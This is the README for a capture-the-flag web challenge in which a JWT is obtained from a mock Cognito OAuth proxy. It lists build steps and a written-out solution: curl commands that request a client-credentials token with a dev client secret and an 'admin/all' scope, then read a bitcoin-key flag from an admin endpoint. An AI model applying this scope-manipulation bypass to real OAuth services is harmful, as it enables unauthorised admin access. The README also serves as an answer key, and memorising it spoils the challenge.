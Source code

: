# POOR: Proof of Overwhelming Richness


![POOR](../docs/poor.png "POOR")

## Build

> docker build -t lh2025/`basename "$PWD"` .

Run with the flag

> docker run -e LH_FLAG=FlagTata -p 80:1234 lh2025/`basename "$PWD"`

# Deploy

Only give URL of the server, no explanation.

## Category

Hack


## Difficulty

Medium (easy with enough OAUTH/JWT/JWT-Token knowledge)

## Solve

- Get a (dev) JWT token with the dev "client", but reduce the scope

> curl --request POST \
--url http://localhost/cognito-proxy/oauth2/token \
--data grant_type=client_credentials \
--data client_id=1qconf4f2v146v0qi6kjn25l3m \
--data client_secret=ni1e9k9a25vp5eq2karankjn6atroof1r354s7havetpjunkj2d \
--data scope=admin/all  

- Use the token to get the flag (private bitcoin key)
> curl --request GET \
--url http://localhost/api/admin/bitcoin \
--header 'Authorization: Bearer $TOKEN' 


## Challenger path

- Go on home page, see client/secret for dev and example usage (with the header)
- Analyse /clients call to "discover" prod client/secret
- Play with the api and see that prod can't get the flag, but the flag is only on prod
- Understand that the env/dev header should match the scope
- See that prod don't use the header or scope
- "Unscope" the dev client to remove "env/dev" and keep the "admin/all" scope


## Possible improvement

- clean code (very ugly, but works)
- docker compose, to separate cognito and the api 
- use a real RS key (so JWT is still ok after restart)
- add some noise to avoid LLM/Burp/Random tools to find the flag to quickly ?

## Env variable

- LH_FLAG: flag to be displayed
- LH_SERVER_PORT: port to be used (default 1234)
- LH_SERVER_ADDRESS: 127.0.0.1 or 0.0.0.0
- LH_COGNITO_ISSUER: issuer of the cognito (if we want to change it)
- LH_COGNITO_KID: key id of the cognito (if we want to change it)
